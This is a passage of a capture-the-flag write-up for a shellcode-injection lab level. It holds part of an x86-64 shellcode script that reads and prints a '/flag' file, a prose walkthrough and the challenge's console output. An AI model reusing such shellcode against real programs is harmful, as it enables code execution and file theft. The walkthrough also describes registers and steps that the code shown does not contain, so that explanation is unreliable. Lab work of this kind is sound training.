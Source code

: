 ```python
push rsp
pop rsi
mov dl, 230
syscall

mov edx, eax
mov dil, 1
mov al, 1
syscall


xor edi, edi
mov al, 60
syscall

location:
  .string "/flag"
''')

p.sendline(shellcode)
p.interactive()
```

The first set make esi and edx zero. We then load the address of the string ``/flag``, It loads it into the eid register After that it wipes eax and moves 2 into the lowest 8 bytes of it. before using the syscal which opens the file.


The second set then copies the value returned from the syscall into edi. We then clear the eax register before loading it with a new syscall for read. We ten push the current rsp onto the stack. We then pop the top value in the stack and place it into rsi essentially holding /flag
After that we set the flag for the space then syscall reading the data.

Lastly we then store whatever was read by the previous syscall We then write the number of bytes that where read from the previous syscall.

hence we exit the programme.

```shell
hacker@shellcode-injection~level4:~$ python3 testscript.py
[+] Starting local process '/challenge/babyshell-level-4': pid 829
[*] Switching to interactive mode
[*] Process '/challenge/babyshell-level-4' stopped with exit code 0 (pid 829)
###
### Welcome to /challenge/babyshell-level-4!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

Mapped 0x1000 bytes for shellcode at 0x22817000!
Reading 0x1000 bytes from stdin.

Executing filter...

This challenge requires that your shellcode have no H bytes!

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
```